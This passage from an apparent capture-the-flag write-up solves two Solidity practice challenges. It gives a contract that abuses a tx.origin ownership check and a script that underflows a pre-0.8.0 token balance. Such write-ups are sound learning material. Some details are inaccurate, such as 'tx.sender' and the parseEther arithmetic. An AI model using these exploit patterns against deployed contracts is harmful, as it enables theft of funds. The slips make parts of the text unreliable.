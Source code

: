 ```solidity
  }
```

---

## telephone

This challenge is again straightforward. When a contract function is triggered by another contract, `tx.origin` is the address of EOA which initiates the tx and `tx.sender` is the address of the caller contract.

To solve this, just create a new contract and call `changeOwner`

```solidity

import "../telephone/Telephone.sol";

contract TelephoneHack {

    Telephone telephone;
    constructor(address telephoneAddress) {
        telephone = Telephone(telephoneAddress);
    }
    function changeOwner() public {
        telephone.changeOwner(msg.sender);
    }
}
```

---

## token

First thing to notice is the compiler version, it is 0.6.0 which is pre 0.8.0 overflow underflow checks and since there is no  `SafeMath` library used, it is vulnerable to the attack.

There is no goal mentioned, we can assume the goal is to transfer all the balances to player. It's a small contract with the only non-view function exposed `transfer`.

[solidity integer overflow and underflow](https://hackernoon.com/hack-solidity-integer-overflow-and-underflow)

You have an initial 20 tokens. You can check this with `await token.totalSupply()`. To get all the remaining tokens. You need to underflow the contract i.e, trigger transfer with the value 21 so that `balances[msg.sender] -= _value;` will be 
`20 - 21 => 2^256 - 1`

```solidity
const tx = await token.transfer(ethers.constants.AddressZero, ethers.utils.parseEther("21"));
await tx.wait()
console.log(await token.balanceOf(owner.address));
```

---
